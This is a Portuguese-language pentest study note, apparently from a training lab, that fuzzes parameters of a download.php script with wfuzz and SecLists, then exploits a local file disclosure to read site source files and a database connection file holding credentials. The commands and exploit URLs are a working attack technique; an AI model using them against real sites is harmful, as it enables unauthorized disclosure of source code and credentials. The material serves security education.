

---
>Titulo: Dia 2.5 - Source Code Disclosure
>
>Fase: Disclosure
>
>Dia: 2

[[../../0-assets/vulnerabilities/LFD]] | [[../../0-assets/tools/Wfuzz]]

#LFD #Fuzzing #Enumeration #SecLists 

---

Iremos então dar andamento na exploração do Disclosure, agora utilizando uma wordlist bem maior que a que nós haviamos anteriormente criado, com uma variada gama de parâmetros.

```bash
## Caso não tenha uma seclist
sudo apt install seclists

## Agora terá uma seclist densa de informações e variadas wordlists
cat /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-name.txt

## Caso seja um preguiço igual a mim e não queira digitar esse caminho todo
cp /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-name.txt lista2

## Um comando bacana para ver o tamanho do arquivo/linhas do arquivos
wc -l lista2

## Iremos esta ferramenta para fazer o trabalho difícil de testar os parâmetros
wfuzz -c -z file,lista2 http://decstore.com.br/download.php?FUZZ=download.php
```

>Explicação do Wfuzz nesta linha de comando
```bash
wfuzz        | Ferramenta usada para fuzzing de parâmetros
-c           | Ativa saída colorida no terminal
-z           | Define o payload
file,lista2  | Tipo de payload "file", usando a wordlist chamada "lista2"
http://...   | URL alvo onde o fuzzing será executado
download.php | Script alvo que recebe parâmetros via GET
?FUZZ=download.php | Define o ponto de fuzzing no nome do parâmetro (FUZZ), atribuindo como valor fixo "download.php"
```

Onde iremos ter a seguinte resposta do comando:



A partir dessas respostas, vamos começar a testar as URLs manualmente, para tentar encontrar algo importante, como uma credencial.

---

Primeiro vamos testar a URL que já haviamos visto anteriormente no mesmo dia.
``http://decstore.com.br/download.php?file=index.php``

Neste arquivo "index.php" conseguimos analisar o código fonte, ou explorar um outro diretório que já vimos no topo do index.php.
``http://decstore.com.br/download.php?file=controle/consulta.php``

Onde dentro deste arquivo, nós também conseguimos um outro diretório para testar, ou explorar o código fonte, já que conseguimos ver queries SQL.
``http://decstore.com.br/download.php?file=modelo/conecta.php``

Onde localizamos mais um diretório... Mas este é diferente, aqui conseguimos uma credencial de acesso, o que é uma vulnerabilidade grave...


Conseguimos todas as informações de acesso da base de dados, este não é um banco exposto a internet, porém continua sendo uma grave vulnerabilidade de segurança, pois podemos tentar usar essas credenciais depois.

---